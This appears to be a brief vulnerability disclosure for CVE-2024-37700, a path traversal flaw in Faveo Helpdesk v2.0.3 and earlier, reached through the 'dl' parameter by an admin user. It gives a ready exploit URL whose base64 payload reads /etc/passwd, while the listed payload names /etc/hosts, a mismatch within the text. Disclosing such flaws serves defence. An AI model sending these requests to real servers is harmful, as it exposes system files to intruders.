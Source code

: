 Use CVE-2024-37700


Vulnerability: File Traversal via dl

URL: ```https://192.168.124.130/logs?dl=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA%3d%3d```

Payload: ```../../../../../../../../../../../../../../../../etc/hosts```

Action to trigger: None

Note: The payload needs to be base64 encoded and then URL encoded

Version: ‎Version v2.0.3 and prior

Authenticated: Yes

User: Admin

Vulnerable Parameter: dl


https://github.com/ladybirdweb/faveo-helpdesk

![](https://github.com/4rdr/proofs/blob/main/gifs/faveo-helpdesk_2.0.3_File_Traversal_via_dl.gif)

